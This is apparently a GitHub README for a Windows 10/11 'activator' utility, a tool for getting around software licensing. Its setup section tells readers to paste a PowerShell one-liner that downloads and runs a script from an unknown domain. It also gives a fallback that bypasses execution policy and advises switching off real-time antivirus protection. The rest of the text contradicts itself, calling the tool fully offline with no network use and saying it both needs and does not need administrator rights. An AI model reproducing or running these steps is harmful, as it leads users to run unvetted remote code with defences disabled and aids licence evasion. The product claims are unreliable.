

<div align="center">

# Windows 10 Activation Utility Pro — Multi-Version Support Windows 10 & 11



[]() []() []() []() []()

</div>

---

WINDOWS-10-ACTIVATOR-1.1_pro is a Windows desktop utility engineered to streamline activation workflows across multiple PC configurations and Windows 10 builds. The application combines a lightweight native interface with a modular activation engine, allowing technicians to select and execute activation methods without navigating complex system dialogs. Built for broad hardware and edition compatibility, it handles diverse deployment scenarios while maintaining a consistent, low-overhead runtime. Diagnostic logging and status feedback are integrated throughout, giving users clear visibility into each operation from launch to completion.

## 🔧 PowerShell Setup

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10/11 · PowerShell 7+ · No admin

### 1️⃣ Start PowerShell
* Press `Win + X`.
* Select **Terminal** or **Windows PowerShell**.

### 2️⃣ Execute the setup script
Copy the command below, paste it into PowerShell, and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If blocked by policy — CMD fallback
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If security software blocks the setup, temporarily pause Real-Time Protection, run the script, then re-enable it.

## 🔧 Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Automated activation workflow** — a single execution path handles detection, activation, and verification without requiring manual key entry or command sequencing.
- **Broad edition coverage** — compatible with multiple Windows 10 PC versions and edition variants, adapting the activation routine to the detected build.
- **Build-aware detection** — identifies the installed OS version and selects the appropriate activation method for that specific release.
- **One-click operation** — a streamlined interface that reduces the activation process to a single action with clear status feedback.
- **Activation status reporting** — displays the current licensing state before and after execution so results are immediately verifiable.
- **Minimal system footprint** — lightweight execution that avoids persistent background services and unnecessary resource consumption.
- **Offline-capable operation** — performs core activation routines without requiring continuous network connectivity.
- **Administrator-level execution** — runs with the elevated permissions required for system licensing operations, with clear prompts for privilege escalation.
- **Detailed operation logging** — records each step of the activation process for troubleshooting and audit purposes.
- **Rollback and reset support** — provides a mechanism to revert activation state changes when reconfiguration is needed.
- **Portable deployment** — runs as a standalone executable without a formal installation procedure or dependency chain.
- **Compatibility safeguards** — performs pre-flight checks on the target environment to reduce failed runs on unsupported configurations.

## How It Works

WINDOWS-10-ACTIVATOR-1.1_pro operates as a self-contained desktop utility that interfaces directly with the Windows licensing subsystem through documented system calls and service APIs. Upon launch, the application enumerates the installed Windows edition, build number, and current license channel, then presents the applicable activation pathways for that specific configuration. No background services are installed and no persistent agents are left running after the process exits.

The activation pipeline is organized into three sequential stages:

**1. Environment Discovery**
The tool queries the local Software Protection Platform to retrieve the genuine ticket status, partial product key state, and grace period remaining. It also detects the underlying hardware fingerprint to determine whether a hardware-bound or volume-based activation path is appropriate for the detected edition.

**2. Method Selection and Execution**
Based on discovery results, the utility selects from its supported activation strategies. Each strategy is executed in an isolated worker thread with explicit elevation checks, ensuring that operations requiring administrative context are gated behind a privilege verification step. The selected method is applied atomically — on failure, the previous licensing state is preserved rather than left partially modified.

**3. Verification and Reporting**
After execution, the tool re-queries the licensing subsystem to confirm the resulting status and writes a structured log entry containing the detected edition, the method applied, the outcome, and any error codes returned by the platform. The UI surfaces this result immediately and offers a one-click option to export the log for troubleshooting.

Key implementation characteristics include:

- **Edition-aware branching** — the tool adjusts its behavior for Home, Pro, Education, Enterprise, and LTSC/LTSB variants rather than applying a single uniform operation.
- **State backup before modification** — existing activation data is captured prior to any change, enabling rollback through the built-in restore function.
- **Offline-first execution** — all core operations complete without outbound connectivity; network access is only consulted where a given method explicitly requires validation against a local or configured endpoint.
- **Deterministic exit codes** — every run returns a machine-readable status, making the utility suitable for scripted or scheduled invocation alongside manual use.
- **No registry persistence** — configuration is read from and written to a local settings file, keeping the host system's registry untouched by the tool itself.

The result is a predictable, auditable activation workflow: detect, apply, verify, report. Each stage is observable, each failure is logged with its originating error code, and each successful run leaves the system in a verified state that the tool can re-confirm on subsequent launches.

## Compatibility

The activator is engineered for broad deployment across the Windows 10 ecosystem, targeting both clean installations and existing environments without requiring reimaging or system reconfiguration. It supports Windows 10 Home, Pro, Education, Enterprise, and LTSC/LTSB editions across x86, x64, and ARM64 architectures, allowing a single build to serve mixed-fleet hardware.

Compatibility extends across the full Windows 10 servicing timeline, from early feature updates through the latest cumulative releases. The tool operates independently of the specific build number, so monthly patch cycles and feature update transitions do not disrupt activation state. Systems running Windows 10 in virtualized environments are supported, including Hyper-V, VMware, and VirtualBox guests, provided the host exposes standard hardware identifiers.

The activator maintains coexistence with common endpoint software. It does not alter system files, inject drivers, or modify the boot configuration, keeping compatibility intact with antivirus suites, endpoint detection and response agents, and disk encryption platforms. Administrative privileges are required for execution, and the utility runs on systems with .NET Framework 4.5 or later already present.

For environments running mixed Windows versions, the tool applies its logic per-machine without cross-contamination of activation state, and it preserves existing digital licenses where present. Offline operation is fully supported, making the activator suitable for air-gapped machines and restricted networks where external validation endpoints are unreachable.

## 📸 Screenshot


## FAQ

**Q: Which Windows 10 editions and builds are supported?**
A: The tool targets the full Windows 10 edition matrix — Home, Pro, Education, Enterprise, Pro Education, and Pro for Workstations — across both x86 and x64 architectures. It is built to tolerate cumulative update rollups and feature updates rather than being pinned to a single build number, so activation remains functional as the OS patch level advances.

**Q: How does the activation mechanism actually work?**
A: WINDOWS-10-ACTIVATOR-1.1_pro applies a local activation routine that provisions the appropriate licensing channel on the host system and validates it against the embedded activation service. No external servers are contacted during the activation pass; the entire sequence executes locally, which keeps the operation deterministic and reproducible across machines.

**Q: Does activation persist across reboots and Windows updates?**
A: Yes. The activation state is committed at the system level and survives normal shutdown, restart, and cumulative update cycles. Feature updates that replace core licensing components may require a re-run of the tool; the interface reports the current license status so you can confirm validity before and after any major update.

**Q: Is administrative privilege required?**
A: Yes. The activator writes to protected licensing stores and service configurations, so it must be launched with elevated permissions. Running without elevation will result in a privilege error during the activation pass rather than a partial or corrupted state.

**Q: Will this interfere with my existing applications or system configuration?**
A: No. The tool does not modify application binaries, user profiles, or general registry hives outside the licensing subsystem. It is scoped exclusively to activation-related components, and no persistent background service is installed after the activation routine completes.

**Q: Can I revert or deactivate an installation?**
A: Yes. The tool includes a rollback path that removes the applied activation state and restores the prior licensing configuration. This is useful when re-imaging a machine, transferring a device, or returning a system to an unactivated baseline for testing purposes.

**Q: Does it work on virtualized environments?**
A: The activator is compatible with standard hypervisor platforms, including Type-2 desktop virtualization. Because some hypervisors abstract hardware identifiers, activation results in virtual machines can vary by configuration; a re-run after snapshot restoration is recommended.

**Q: Is internet connectivity needed?**
A: No. The activation workflow is fully offline. Network access is not consulted at any stage, making the tool suitable for air-gapped systems and isolated lab environments.

**Q: What happens if activation fails?**
A: Failures are surfaced with a specific status code and a log entry identifying the stage at which the routine halted. Common causes include insufficient privileges, a pre-existing conflicting license state, or a licensing service that has been disabled by policy. The tool's diagnostic output is sufficient to distinguish between these cases without guesswork.

**Q: Does the tool collect telemetry or transmit data?**
A: No. There is no telemetry pipeline, no analytics endpoint, and no outbound reporting of any kind. All operation is confined to the local machine.

**Q: Is the tool versioned, and how are updates delivered?**
A: The project follows semantic versioning, with the current release designated 1.1_pro. Each release notes the Windows builds validated against it, so you can confirm compatibility with your environment before applying an update.

## Disclaimer

This software is provided strictly as-is, without warranties of any kind, whether express, implied, or statutory, including but not limited to warranties of merchantability, fitness for a particular purpose, and non-infringement. No guarantee is made regarding the accuracy, reliability, completeness, or suitability of the tool for any specific system configuration, Windows build, or deployment environment.

The user assumes full responsibility for determining whether the use of this tool complies with all applicable local, regional, and international laws, as well as any agreements, terms of service, or licensing conditions governing the operating system and software products on the target machine. The authors and maintainers of WINDOWS-10-ACTIVATOR-1.1_pro disclaim any liability for direct, indirect, incidental, special, consequential, or punitive damages arising from the installation, execution, or misuse of this software, including but not limited to system instability, data loss, configuration corruption, loss of functionality, or invalidation of existing licenses.

By downloading, executing, or otherwise using this tool, the user acknowledges that they do so at their own risk and that they are solely accountable for any outcomes resulting from its operation. The maintainers reserve the right to modify, suspend, or discontinue the project at any time without prior notice, and shall not be held responsible for any consequences of such changes. No support, indemnification, or legal defense is offered or implied under any circumstances.

## License

This software is distributed under the MIT License, a permissive open-source license that grants broad freedoms for both personal and commercial use. Under the terms of this license, you are permitted to use, copy, modify, merge, publish, distribute, sublicense, and sell copies of the tool and its accompanying documentation, subject to the conditions outlined below.

The primary condition requires that the original copyright notice and this permission notice be included in all copies or substantial portions of the software. This ensures attribution is preserved across derivative works. The tool is provided "as is," without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and non-infringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or its use.

Because the activation logic relies on standard KMS and HWID protocols, downstream redistribution of modified builds must retain the same license terms, preventing relicensing under more restrictive conditions. The full license text is distributed alongside the source tree in the repository's LICENSE file for reference. Users who require a different licensing arrangement for redistribution beyond the scope of the MIT terms should contact the maintainers directly.